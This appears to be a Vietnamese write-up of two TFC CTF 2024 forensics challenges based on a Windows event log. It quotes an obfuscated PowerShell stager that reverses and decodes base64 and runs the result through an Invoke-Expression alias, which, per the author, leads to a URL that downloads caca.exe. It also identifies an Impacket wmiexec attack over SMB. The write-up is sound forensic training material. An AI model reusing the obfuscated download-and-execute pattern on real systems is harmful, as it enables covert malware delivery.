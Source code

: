 # TFC CTF 2024.
### I. HE DID WHAT!?
- Chall này cho ta 1 file `.evtx` và ta cần phải tìm kiếm cờ trong đó. Bởi vì không có 1 thông tin nào cả nên mình cứ mò thì thấy được cái ni.
![1723123748727](image/writeup/1723123748727.png)
- Nó cho ta thông tin về 1 file `caca.exe` đang thực hiện 1 lệnh PowerShell , và các dòng sau cũng cho ta đầy đủ các lệnh đó là gì.
```
VHEEVH}x3uwcnad6u3eac3pvaj6tf
$SCr = [SyStem.TexT.encODINg]::uTF8.GeTsTrInG([SYSteM.coNVErT]::froMBaSe64STrinG("$w9r4pBoZlnfIzH1keCtX")) ;
$uqR = "i"+"N"+"V"+"o"+"k"+"e"+"-"+"E"+"X"+"p"+"r"+"E"+"S"+"S"+"i"+"O"+"n" ; NEW-aLIaS -naME pWN -VaLuE $uqR -FORCe ; PWN $SCr ;
$FBtFFDr8NXp5 = "=oQDiUGel5SYjF2YiASZslmR0V3TtASKpkiI90zZhFDbuJGc5MEZoVzQilnVIRWe5cUY6lTeMZTTINGMShUYigyZulmc0NFN2U2chJUbvJnR6oTX0JXZ252bD5SblR3c5N1WocmbpJHdTRXZH5COGRVV6oTXn5Wak92YuVkL0hXZU5SblR3c5N1WoASayVVLgQ3clVXclJlYldVLlt2b25WS" ;
$w9r4pBoZlnfIzH1keCtX = $FBtFFDr8NXp5.ToCharArray() ; [array]::Reverse($w9r4pBoZlnfIzH1keCtX) ; -join $w9r4pBoZlnfIzH1keCtX 2>&1> $null ;
```
- Đây là Tổng hợp các lệnh cũng khá dễ hiểu khi ta có biến `$FBtFFDr8NXp5` có dữ liệu là đoạn base đã bị reverse, sử dụng `Cyber Chef` decode thì nó tiếp tục ra 1 đoạn base nữa.
![1723124011969](image/writeup/1723124011969.png)
- Decode 1 lân nữa ta được 1 URL để tải về con `caca.exe` đó.
![1723124045048](image/writeup/1723124045048.png)
- Sử dụng `DotPeek` để xem source bên trong file exe này thì nó chỉ thực hiện việc mã hóa 1 flag fake bằng cách nâng giá trị `ASCII` của từng chữ cái lên 2 đơn vị.
![1723124198917](image/writeup/1723124198917.png)
- KHi chạy thử script đó thì chuỗi fake flag đó thành `VHEEVH}hcmgahnciajcjc` ta có thể dễ dạng nhận ra script PowerShell cũng có 1 đoạn tương tự là `VHEEVH}x3uwcnad6u3eac3pvaj6tf` Vậy ta chỉ cần mã hóa ngược là sẽ có flag.
```
def decode(encoded_str):
    decoded_str = ""
    for char in encoded_str:
        decoded_str += chr(ord(char) - 2)
    return decoded_str

encoded_str = "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
decoded_str = decode(encoded_str)
print("Decoded string:", decoded_str)

```
- Sử dụng script trên decode là ra flag hoi.
```
$ python3 a.py 
Decoded string: TFCCTF{v1sual_b4s1c_a1nt_h4rd
```

*`FLAG: TFCCTF{v1sual_b4s1c_a1nt_h4rd}`*

### II. SM WHAT!?.
```
Description:
    An attacker managed to gain foothold in our network, but we managed to capture the connection to our server. Analyze the file and identify the tool used to connect, the service it connected to, its IP address, and the shared resources folder. Flag format: TFCCTF{tool_service_ip_share} Example: TFCCTF{ntlmrelayx_rdp_192.168.0.1_logs$} Note: The flag is in all lowercase (except for TFCCTF).
```
- Chall này cũng thế ta cũng sẽ sử dụng file `.evtx` vừa rồi nhưng lần này ta cần tìm kiếm thông tin để có được flag.
- Mình có mò 1 hồi thì có kiếm được 1 Task cho ta biết file được gửi đi chính là `admin$`.
![1723125662117](image/writeup/1723125662117.png)
- Để tìm kiếm 1 công cụ nào đó được sử dụng ta có thể tìm Task là `Process Creation` ta có thể dễ dàng nhận ra IP được gửi đến là `127.0.0.1` và tiến trình được sử dụng là `WmiPrvSE.exe` từ đây đã có thể chắc chắn rằng attacker đã sử dụng Tool `wmiexec` để tấn công. Bạn có thể đọc thêm về [Impacket Wmiexec](https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/).
![1723125817835](image/writeup/1723125817835.png)
- Từ tool đó ta có thể chắc chắn rằng service được sử dụng là `SMB` bởi vì folder `admin$` được mặc định gửi trên `SMB`và nó bị ràng buộc bởi `C:/Windows`

*`FLAG: TFCCTF{wmiexec_smb_127.0.0.1_admin$}`*
